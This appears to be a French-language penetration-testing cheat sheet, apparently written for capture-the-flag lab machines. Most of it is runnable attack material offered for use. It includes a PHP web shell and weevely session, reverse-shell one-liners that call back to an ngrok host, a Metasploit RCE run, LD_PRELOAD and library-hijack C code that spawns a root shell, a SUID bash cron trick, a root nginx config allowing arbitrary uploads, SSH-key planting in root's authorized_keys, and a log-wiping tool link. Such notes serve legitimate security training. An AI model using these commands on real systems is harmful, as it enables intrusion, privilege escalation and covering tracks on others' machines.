

## Docs

- https://cheatsheet.haax.fr/
- https://github.com/maksyche/pentest-everything
- https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
- https://web.archive.org/web/20231204203317/https://neutronsec.com/cheat_sheets/cheatsheet-77/
- http://michalszalkowski.com/security/pivoting-tunneling-port-forwarding/chisel-socks5-tunneling-windows-rev/
- https://dostoevskylabs.gitbooks.io/dostoevskylabs-pentest-notes/content/
- https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228-fr-fr/ (Log4j, Shellshock)

## Outils

- `Wappalyzer` (**découverte de technos** : Java -> /actuator; /metrics), `Foxyproxy` (Burp:8080)
- https://github.com/projectdiscovery/nuclei
- https://github.com/calebstewart/pwncat
- https://github.com/nicocha30/ligolo-ng
- https://gtfobins.github.io/
- https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS/README.md/
- https://github.com/PercussiveElbow/docker-escape-tool/
- https://github.com/cdk-team/CDK/ # Docker linPEAS
- https://github.com/docker/docker-bench-security
- https://github.com/ThePorgs/Exegol/

**Static binaries**

- https://github.com/andrew-d/static-binaries
- https://github.com/hugsy/gdb-static

**Audit**

- https://grep.app/search?q=%5B0-9A-Za-z_%5D # recherche de code
- https://clang.llvm.org/docs/analyzer/user-docs/CommandLineUsage.html#scan-build
- https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/03-Identity_Management_Testing/05-Testing_for_Weak_or_Unenforced_Username_Policy
- https://www.first.org/cvss/calculator/3.0
- https://github.com/skills/secure-code-game

```bash
python3 -m pip install semgrep
cd audit_project; code .
semgrep --config auto --sarif -o semgrep.sarif .
```

```bash
scan-build gcc a.c
scan-build: Using '/usr/bin/clang-18' for static analysis
```

**Découverte**

`curl -v <site>`: check les headers par exemple

`Repo Git`:

- https://github.com/davtur19/DotGit

- https://github.com/arthaud/git-dumper

```bash
  -j JOBS, --jobs JOBS  number of simultaneous requests
  -r RETRY, --retry RETRY
                        number of request attempts before giving up
  -t TIMEOUT, --timeout TIMEOUT
                        maximum time in seconds before giving up
  -u USER_AGENT, --user-agent USER_AGENT
                        user-agent to use for requests
  -H HEADER, --header HEADER
                        additional http headers, e.g NAME=VALUE
```

`Searchsploit (install)`

- https://gitlab.com/exploit-database/exploitdb

**Enumeration**:

## Arp

```bash
arp -a
sudo arp-scan -I enp3s0f1 -l
```

## Web/Dns

- http://ffuf.me/
- http://ffuf.me/sub/vhost

```bash
find SecLists -type f -name "common.txt"	#web
find SecLists -type f -name "subdomains*"	#dns

ffuf -w ~/wordlists/common.txt -u http://{ip}/FUZZ -recursion -mc 200
ffuf -w ~/wordlists/subdomains.txt -H "Host: FUZZ.{domain}" -u http://{ip} -mc 200
#mc = matchcode , fc = filter code 
#ffuf -u http://FUZZ.IP/ -w ~/wordlists/subdomains.txt -c -fc 302
```

```bash
dig axfr @10.10.11.212 snoopy.htb
# x.snoopy.htb y.snoopy.htp etc
```

### IDOR

- http://ffuf.me/cd/pipes

## Nmap

```bash
nmap -Pn -sC -sV -p- 10.10.11.243
```

| Scan Type | Example Command |
| --- | --- |
| ARP Scan | `sudo nmap -PR -sn MACHINE_IP/24` |
| ICMP Echo Scan | `sudo nmap -PE -sn MACHINE_IP/24` |
| ICMP Timestamp Scan | `sudo nmap -PP -sn MACHINE_IP/24` |
| ICMP Address Mask Scan | `sudo nmap -PM -sn MACHINE_IP/24` |
| TCP SYN Ping Scan | `sudo nmap -PS22,80,443 -sn MACHINE_IP/30` |
| TCP ACK Ping Scan | `sudo nmap -PA22,80,443 -sn MACHINE_IP/30` |
| UDP Ping Scan | `sudo nmap -PU53,161,162 -sn MACHINE_IP/30` |

N'oubliez pas d'ajouter l'option `-sn` si vous ne souhaitez effectuer que la découverte d'hôtes sans balayage de ports. Omettre `-sn` permettra à Nmap de scanner les ports des hôtes actifs par défaut.

Option | Purpose
--- | ---
`-n` | ne pas effectuer de recherche DNS
`-R` | recherche DNS inversée pour tous les hôtes
`-sn` | découverte d'hôtes uniquement

## Port Forwarding

- https://github.com/Nicocha30/ligolo-ng (SOCK5 alternative)
- https://github.com/jpillora/chisel
- http://michalszalkowski.com/security/pivoting-tunneling-port-forwarding/chisel-socks5-tunneling-windows-rev/
- http://web.archive.org/web/20220612232400/https://www.orangecyberdefense.com/fr/insights/blog/ethical-hacking/etat-de-lart-du-pivoting-reseau-en-2019


### Public TCP forwarding

```bash
ssh -R 9000:localhost:9000 serveo.net
nc -nlvp 9000
```

### Pivoting / Remote Port Forwarding + Tunneling

#### Attacker / HOST (chisel, do the same on remote/ victim)

```bash
rm -rf /opt/tools/chisel/
mkdir -p /opt/tools/chisel/

wget https://github.com/jpillora/chisel/releases/download/v1.7.4/chisel_1.7.4_linux_amd64.gz -O /opt/tools/chisel/chisel.gz
gzip -d /opt/tools/chisel/chisel.gz
mv /opt/tools/chisel/chisel /opt/tools/chisel/chisel.elf
chmod +x /opt/tools/chisel/chisel.elf
```

```bash
# On PRIVATE network
./chisel.elf server -p 8080 --reverse

# On PUBLIC network (General way)
./chisel server --host localhost -p <PORT_LISTENER_NCAT> --reverse -v
```

#### Victim

```bash
# On PRIVATE network + FULL Tunneling (SOCKS)
.\chisel.exe client 192.168.45.218:8080 R:socks

# On PUBLIC network + PARTIAL port Tunneling
./chisel client X.tcp.eu.ngrok.io:YYYYY R:<PORT_TOMAP>:127.0.0.1:<PORT_TOMAP>
```


```bash
# CHECK Tunneling
nmap -p <PORT_TOMAP> 127.0.0.1
```

#### Host : Proxychains4 with SOCKS5

- https://github.com/Andrei-Masilevich/proxychains4

- or `proxychains.conf` 

```bash
sudo nano /etc/proxychains4.conf
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 1080
```

#### Host - Proxychains-ng

```bash
yay -S proxychains-ng
nano proxychains.conf

#ecrire
#proxy_dns
#tcp_read_time_out 200
#tcp_connect_time_out 200
#[ProxyList]
#socks5 127.0.0.1 1080

proxychains -q nmap -p21 -Pn 192.168.66.63 -sV
```

```bash
#vm2 sur enp0s8 192.168.66.124/24
#vm1 sur enp0s9 192.168.56.102/24
proxychains -q nmap -p22 -Pn 192.168.66.00/24 -vv
proxychains -q nmap -p- -Pn 192.168.66.63 -vv

#PORT   STATE SERVICE VERSION
#21/tcp open  ftp     vsftpd 2.3.4

proxychains -q nmap -p21 -Pn 192.168.66.63 -sV
proxychains ftp 192.168.66.63
proxychains exploit.py
```

## Enum4linux

Énumérer SMB:

`enum4linux -a <ip>`

## Gobuster

`gobuster dir -u http://10.10.178.131 / -w directory-list-2.3-medium.txt`

`gobuster vhost -u http://10.10.178.131 / -w directory-list-2.3-medium.txt --append-domain`

## Hydra

SSH:

```bash
hydra -l <username> -P rockyou.txt 10.10.80.245 ssh -I -V <-t 4>
```

`Avec wordlist user`

```bash
hydra -L user.txt -P rockyou.txt 10.10.80.245 ssh -t 10 #/etc/passwd
```

FTP:

```bash
hydra -l <username> -P rockyou.txt ftp://10.10.80.245
```

WEB:

```bash
hydra -l <username> -P <wordlist> 10.10.80.245 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

## John

```bash
#passphrase
ssh2john id_rsa > id_rsa_hash
john --wordlist=rockyou.txt id_rsa_hash
```

```bash
zip2john file.zip > file_hash
john --wordlist=rockyou.txt file_hash
```

## Searchsploit

```bash
searchsploit request-baskets #PATH: python/webapps/51675.sh
searchsploit -x 51675 #examine le code source de l'exploit
searchsploit -m 51675 #copie l'exploit dans le PATH courant 
```

## Metasploit

```bash
msfconsole
msf6 > search  metabase

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/http/metabase_setup_token_rce  2023-07-22       excellent  Yes    Metabase Setup Token RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/metabase_setup_token_rce
```

### FreePBX

- https://seclists.org/fulldisclosure/2012/Mar/234
- https://www.offsec.com/vulndev/freepbx-exploit-phone-home/

## Mysql

```bash
mysql -u root
show databases;
use information_schema;
show tables;
select * from columns;
```

## Pgsql

```bash
psql -U postgres -h 127.0.0.1 -p 5432
\l
\c cozyhosting;
\dt
select * from users;
```

## Netstat

```bash
netstat -p
```

**Exploitation**

## Reverse Shells

**STTY propre*

```bash
rlwrap nc -nlvp 4444
```

```bash
pip install pwncat-cs
pwncat-cs -lp 4444
````

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

`system(),exec(),shell_exec(),proc_open()`

https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/

*File Upload* voir [payload all the things](../web)

```php
<?php system($_GET['cmd']);?>
```

- `weevely`

```bash
┌──(kali㉿kali)-[~]
└─$ weevely generate password shell.php5
Generated 'shell.php5' with password 'password' of 781 byte size.

┌──(kali㉿kali)-[~]
└─$ weevely http://10.10.97.185/uploads/shell.php5 password

[+] weevely 4.0.1

[+] Target:     www-data@rootme:/var/www/html/uploads
[+] Session:    /home/kali/.weevely/sessions/10.10.97.185/shell_0.session
[+] Shell:      System shell

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

----

- https://www.revshells.com/

`busybox nc <ip> <port> -e sh`

----

### Meme reseau (openvpn)

ip **tun0** (openvpn):



### Reseau different (ip publique)

- https://cheatsheet.haax.fr/shells-methods/reverse/

```bash
#term1
ngrok config add-authtoken TOKEN
ngrok tcp 4444
```

`Forwarding                    tcp://5.tcp.eu.ngrok.io:16833 -> localhost:4444`

```bash
#term2
nc -nlvp 4444
```

RCE:

```bash
sh -i >& /dev/tcp/5.tcp.eu.ngrok.io/16833 0>&1
```

**Privesc / Post - Exploitation**:

- https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
- https://github.com/DominicBreuker/pspy

```bash
# processus en cours
ps aux
```

## ExploitDB/Searchsploit/Metasploit

```bash
uname -a #rechercher par exploit kernel
```

- https://www.exploit-db.com/


```bash
msf6 > use exploit/linux/http/metabase_setup_token_rc
[*] Using configured payload cmd/unix/reverse_bash

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/http/metabase_setup_token_rce  2023-07-22       excellent  Yes    Metabase Setup Token RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/metabase_setup_token_rce

[*] Using exploit/linux/http/metabase_setup_token_rce
msf6 exploit(linux/http/metabase_setup_token_rce) > set rhosts data.analytical.htb
rhosts => data.analytical.htb
msf6 exploit(linux/http/metabase_setup_token_rce) > set rport 80
rport => 80
msf6 exploit(linux/http/metabase_setup_token_rce) > set lhost tun0
lhost => tun0
msf6 exploit(linux/http/metabase_setup_token_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.214:4444 
```

## Privesc Linux classique

Vérifier `sudo -l`

```c
//gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

```bash
sudo LD_PRELOAD=/tmp/preload.so <program suid>
```

- Shared object Hijacking:

Vérifier `ldd <program>`

```c
//gcc -o /tmp/<une lib du programme> -shared -fPIC library_path.c

#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

```bash
sudo LD_LIBRARY_PATH=/tmp <program>
```

- Cronjobs

```bash
#overwrite.sh
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Attendre:

```bash
chmod +x /home/user/overwrite.sh
/tmp/rootbash -p
```

## Nginx

Dans le cas d'un binaire SUID, on rajoute `dav_methods PUT` pour uploader n'importe quel fichier

```bash
user root;
worker_processes auto;
pid /run/nginx2.pid;
include /etc/nginx/modules-enabled/*.conf;

events {
    worker_connections 768;
    # multi_accept on;
}

http {
    server {
        listen 1337;
        location/ {
            root /;
            autoindex on;
            dav_methods PUT;
    }
}
```

Lancement:

```bash
sudo nginx -c nginx.conf
```

```bash
activemq@broker:/tmp$ netstat -tunlp | grep 1337
netstat -tunlp | grep 1337
tcp        0      0 0.0.0.0:1337            0.0.0.0:*               LISTEN      -
```

## SSH - Keygen

```bash
## attaquant
ssh-keygen -t rsa -b 4096 -f keyname
#victime
curl localhost:1337/root/.ssh/authorized_keys --upload-file keyname.pub

#attaquant
ssh root@10.10.11.243 -i keyname
```

## Anti-Forensic (suppression de logs)

- https://github.com/sundowndev/covermyass
